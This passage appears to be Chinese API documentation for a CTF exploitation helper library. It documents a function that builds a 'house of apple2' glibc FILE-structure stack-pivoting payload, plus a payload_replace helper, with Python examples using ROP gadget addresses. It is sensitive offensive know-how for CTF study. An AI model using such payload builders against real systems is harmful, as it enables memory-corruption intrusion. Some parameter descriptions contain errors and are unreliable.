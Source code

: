 https://www.roderickchan.cn/post/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/

参数：

+ `standard_FILE_addr(int)`：要确保该参数为`_IO_2_1_stdin_/_IO_2_1_stdout_/_IO_2_1_stderr_`其中一个的地址。若没办法，则该参数-0x30和-0x18处要为0
+ `_IO_wfile_jumps_addr(int)`：`_IO_wfile_jumps_`的地址，一般设为 `libc.sym._IO_wfile_jumps`即可
+ `leave_ret_addr(int)`：代表`leave_ret`汇编指令的地址
+ `pop_rbp_addr(int)`：代表`poo rbp; ret`汇编指令的地址
+ `fake_rbp_addr(int)`：代表要迁移过去的地址 + 8（因为是通过`leave;ret`迁移）

返回值：`house of apple2` 栈迁移攻击的`payload`

示例：

```python
data = IO_FILE_plus_struct().house_of_apple2_stack_pivoting_when_exit(libc.sym._IO_2_1_stderr_,
                                                                      libc.sym._IO_wfile_jumps,
                                                                      libc.search(asm("leave; ret")).__next__(),
                                                                      libc.search(asm("pop rbp; ret")).__next__(),
                                                                      libc.sym._IO_2_1_stderr_ + 0xe0-8)
```



### payload_replace

功能：对数据对应偏移进行替换

参数：

+ `payload(str or bytes)`：要进行替换的数据
+ `rpdict`：用`flat`生成的`payload`

返回值：替换好的数据

示例：

```python
data = IO_FILE_plus_struct().house_of_apple2_stack_pivoting_when_do_IO_operation(
    standard_FILE_addr=libc.sym._IO_2_1_stdout_,
    _IO_wfile_jumps_addr=libc.sym._IO_wfile_jumps,
    leave_ret_addr=lbs + 0x000000000004ae07,
    pop_rbp_addr=lbs + 0x0000000000023730,
    fake_rbp_addr=0xdeadbeef
)

data = payload_replace(data, {
    0x38: 0x7ffff7f957b0,
    0x10: mov_rdx2rsp,
    0x68: lbs + 0x00000000000f5d27
})
```

